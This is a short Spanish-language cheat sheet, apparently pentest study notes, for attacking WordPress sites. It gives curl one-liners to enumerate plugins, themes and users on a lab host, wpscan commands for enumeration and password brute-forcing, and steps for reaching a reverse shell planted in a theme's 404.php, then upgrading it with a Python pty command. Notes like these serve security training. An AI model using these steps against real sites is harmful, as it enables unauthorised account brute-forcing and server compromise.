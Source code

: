 ## Las siguientes técnicas no son concluyentes y se necesita un recorrido manual para encontrar más información y plugins.


#### Passive plugins enumeration

    curl -s -X GET http://página | sed 's/href=/\n/g' | sed 's/src=/\n/g' | grep 'wp-content/plugins/*' | cut -d"'" -f2


Tener en cuenta que cada plugin tiene un readme que se encuentra en:

        /wp-content/plugins/<plugin-name>/readme.txt
        
#### Passive themes enumeration

    curl -s -X GET http://blog.inlanefreight.com | sed 's/href=/\n/g' | sed 's/src=/\n/g' | grep 'themes' | cut -d"'" -f2


#### User Enumeration

Listar de a un usuario:

    curl -s -I -X GET http://blog.inlanefreight.com/?author=1

O la lista de usuarios en un json:

    curl http://blog.inlanefreight.com/wp-json/wp/v2/users | jq



### WPSCAN

#### Enumerar todo el sitio y plugins:
        wpscan -url "" --enumerate  --api-token <api-token>
#### BF:
        wpscan -url "" --usernames "" --passwords "dictio"


### Explotar una WP desde la página de error 404
#### Acceder a la pagina php con la shell
        http://"ip o url"/wp-content/themes/"tema"/404.php

si la reverse shell es la monkey, para migrar a una shell más estable:
        python -c 'import pty;pty.spawn("/bin/bash")' 
